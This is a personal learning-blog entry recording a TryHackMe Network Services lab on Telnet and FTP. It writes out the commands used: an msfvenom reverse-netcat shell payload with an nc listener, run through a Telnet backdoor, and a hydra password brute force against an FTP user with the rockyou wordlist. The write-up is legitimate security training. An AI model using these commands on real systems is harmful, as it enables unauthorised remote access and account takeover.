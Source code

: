```yaml
---
title: Day 13
date: 2022-04-26
layout: post.njk
tags: daily
---
```


{{ page.date.toDateString }}

Today I'm starting on the Telnet section of the [Network Services Module](https://tryhackme.com/room/networkservices). I know Telnet is pretty old and not used very often, but I always think knowing more is better than knowing less.


Just like I thought:
> "Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations."

I ran an nmap scan against the target, but got no open ports up when I just ran `nmap -sS <IP>`. It only ran it against the first 100 ports so I bumped it to 10000 and got one: `Port 8012`. Service is unknown.

When I telnet to it I get the message:
> "SKIDY'S BACKDOOR"
But it doesn't appear that any commands can be run.

So I followed the instructions to set up the `tcpdump` on the attack box via: `sudo tcpdump ip proto \\icmp -i eth0`. This essentially is saying listen for ping requests on the eth0 interface.

I then was able to run a ping on the connected host using the `.RUN` command: `.RUN ping <ip> -c 1` and I recieved the ping request. This means I can execute commands on the remote system.

I then used `msfvenom` to create a specific payload to get a shell on the remote machine. `msfvenom -p cmd/unix/reverse_netcat lhost=<ip> lport=4444 R`. The payload creates a netcat connection back to your local machine so I justed needed to set up a netcat listener locally on the port I specificed in the msfvenom command. `nc -lvp 4444`

After running that I run the payload on the remote machine and I got a connection back! a simple ls revealed `flag.txt`.

Finally I moved onto the FTP section. The enumeration was pretty simple I ran `nmap -sT <ip>` and it came back with two ports. There was a webserver on port 80 and ftp running on 21. I ran `nmap -sV <ip> -p 21` to get mroe info on the FTP service. I was then able to login anonymously: `username: anonymous, password: <blank>` There was a file in there signed by Mike.

To get in I used hydra to brute force the password while guessing that there is a username `mike`. The command was: `hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp`

It was able to brute force the password quickly and gave me a password of...`password`. I was then able to login via ftp using that username and password to retrieve the flag.


Overall it was a module and I really enjoyed getting to do some exploitation. Looking forward to [Netowork Services 2](https://tryhackme.com/room/networkservices2) tomorrow!

